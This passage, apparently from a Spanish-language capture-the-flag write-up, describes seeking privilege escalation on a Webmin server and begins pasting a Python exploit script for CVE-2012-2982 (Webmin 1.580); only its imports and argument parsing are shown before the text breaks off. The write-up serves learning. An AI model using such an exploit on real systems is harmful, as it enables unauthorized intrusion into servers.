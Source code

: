 ![Pasted-image-20240721043603.png](./assets/Pasted-image-20240721043603.png)


ahora nos falta escalar privilegios. Para ello, debemos revisar la version de este webmin y ver que nos trae. 

Nos trajo este script:

```python
#!/usr/bin/env python3
# https://github.com/JohnHammond/CVE-2012-2982/blob/master/CVE-2012-2982.py
import argparse
import random
import string
import sys
import urllib.parse

import requests


def get_args():

    parser = argparse.ArgumentParser()

    parser.add_argument(
        "-t", "--target", help="The host of the Webmin 1.580 target", required=True
    )
    parser.add_argument(
        "-p",
        "--port",
        help="The port that hosts Webmin 1.580",
        required=False,
    )
    parser.add_argument(
        "-U",
        "--username",
        help="The username to login to Webmin",
        required=True,
    )
    parser.add_argument(
        "-P",
        "--password",
        help="The password to login to Webmin",
```